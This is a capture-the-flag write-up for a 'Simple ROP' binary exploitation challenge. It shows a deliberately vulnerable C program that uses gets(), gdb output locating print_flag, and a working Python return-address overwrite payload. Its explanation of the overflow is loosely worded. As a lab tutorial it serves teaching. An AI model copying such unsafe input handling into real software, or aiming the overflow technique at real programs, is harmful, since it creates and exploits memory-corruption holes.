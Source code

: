 Simple ROP
======
* **120 points**
* **Category: Binary Exploitation**
* **Problem statement:** _Read flag.txt_
* [Source](Source.C) , [Binary](simple-rop)

Lets start by looking at the Source!
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}

```

So we input characters and those get stored in an array, and then printed out for us to see. But what happens if we enter more characters than the array can store?
 Well in C, it interprets those bytes that can't get stored in the array as where the next instruction to be executed is.
  (This is known as a buffer overflow, We are filling up the buffer, and the overflow is the next instruction to be executed.)

So lets get the location of where the function "print_flag()" is in the binary.
To do this, we open the binary in gdb.
```
$ gdb ./simple-rop
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later
<snip>
Reading symbols from ./simple-rop...(no debugging symbols found)...done.

(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  printf@plt
0x08048380  gets@plt
0x08048390  getegid@plt
0x080483a0  system@plt
0x080483b0  __libc_start_main@plt
0x080483c0  setresgid@plt
0x080483e0  _start
0x08048410  __x86.get_pc_thunk.bx
0x08048420  deregister_tm_clones
0x08048450  register_tm_clones
0x08048490  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484db  main
0x0804851a  print_flag
0x08048533  what_did_you_say
0x08048560  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c4  _fini
(gdb)

```
Our address is `0x0804851a  print_flag`!
So now we just need to call the binary, fill the char array, and then specify 0x0804851a be executed.
In C, these memory addresses are stored in Little Endian Form, so that means that the number to be entered will have the order of the bytes reversed.

So the number to inject at the end is `0x1a850408`
So now we use python to try to execute the attack. We want to feed the simple-rop file 64 chars of input and then that hex value. We can use python to do this, because some of those characters in the memory address are unprintable.

```
$ python -c "print('A' * 64 + '\x1a\x85\x04\x08')" | ./simple-rop
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
```
Huh not even a Seg Fault? That typically means the buffer didn't actually overflow. Well actually sometimes char[64] can actually be a few more bytes, in this case 76 bytes. Doing that we get:
```
$ python -c "print('A' * 76 + '\x1a\x85\x04\x08')" | ./simple-rop
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
easyctf{r0p_7o_v1ct0ry}
Segmentation fault
```
